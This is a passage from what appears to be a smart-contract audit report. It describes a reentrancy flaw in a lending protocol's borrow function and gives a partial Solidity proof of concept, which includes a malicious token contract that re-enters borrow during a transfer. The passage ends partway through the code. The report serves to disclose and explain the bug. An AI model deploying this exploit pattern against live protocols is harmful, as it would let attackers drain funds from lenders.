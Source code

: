 - Lenders/Suppliers: Users who supply tokens to the protocol (e.g., via deposits) lose funds, as the protocol cannot recover the full debt from attackers, reducing the pool available for withdrawals or interest payments.

### PoC


The following Solidity code demonstrates the reentrancy attack. It includes a malicious token contract that re-enters `borrow` during the transfer, a simplified `CoreRouter` implementation, and mock dependencies.

```solidity
pragma solidity 0.8.23;

interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);
}

interface LTokenInterface {
    function accrueInterest() external;
    function borrowIndex() external view returns (uint256);
}

interface LErc20Interface {
    function borrow(uint256 amount) external returns (uint256);
}

contract MaliciousToken {
    CoreRouter public router;
    address public attacker;
    bool public attackStarted;

    constructor(address _router, address _attacker) {
        router = CoreRouter(_router);
        attacker = _attacker;
    }

    function transfer(address to, uint256 amount) external returns (bool) {
        if (!attackStarted) {
            attackStarted = true;
            router.borrow(500e6, address(this)); // Re-enter borrow
        }
        return true; // Simulate successful transfer
    }
}

contract LTokenMock is LTokenInterface, LErc20Interface {
    mapping(address => uint256) public borrowBalance;
    uint256 public override borrowIndex = 1e18;

    function borrow(uint256 amount) external override returns (uint256) {
        borrowBalance[msg.sender] += amount;
        return 0; // Success
    }

    function accrueInterest() external override {}
}

contract LendStorageMock {
    mapping(address => mapping(address => BorrowMarketState)) public borrowBalances;

    struct BorrowMarketState {
        uint256 amount;
        uint256 borrowIndex;
    }
```